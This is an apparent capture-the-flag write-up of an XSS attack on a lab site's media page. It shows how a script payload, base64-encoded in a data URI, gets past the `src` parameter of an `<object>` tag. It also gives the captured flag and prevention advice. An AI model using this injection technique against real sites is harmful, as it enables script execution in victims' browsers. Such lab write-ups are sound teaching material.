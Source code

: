 [README.md](../../../README.md)
# XSS injection media page
## Reconnaissance
On the website home page, only one image is clickable.
Clicking on it leads us to the following link: `http://172.16.0.98/?page=media&src=nsa`

Upon inspecting the page, we discover an `<object>` HTML tag, which is known for its potential vulnerability to XSS injection.

## Exploit
By manipulating the `src` parameter in the URL, we attempt to launch an attack.

The following URL does not work and returns an error:
`http://172.16.0.98/?page=media&src=<script>alert(1)</script>`

This is likely because the URL does not support special characters like `/`.

To overcome this, we attempt to encode the URL in Base64:
- `<script>alert(1)</script>` -> `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

The modified URL does not work either:
`http://172.16.0.98/?page=media&src=bW9kdWxlPSJtZWRpYSZzcmM9PGJvZHk%2BYWxlcnQoMSk8L2JvZHk%2B`


To proceed, we add the following part to the URL to indicate that the subsequent content is encoded in Base64: `data:text/html;base64`
This gives us the working URL:: `http://172.16.0.98/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`


**Flag:**
```
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```
## Prevention
- Do not use the `<object>` HTML tag.
- Input sanitization mechanics to filter out malicious content.
- Content Security Policy (CSP) headers

See: [XSS Prevention](../../xss_feedback/Resources/xss_feedback.md#prevention)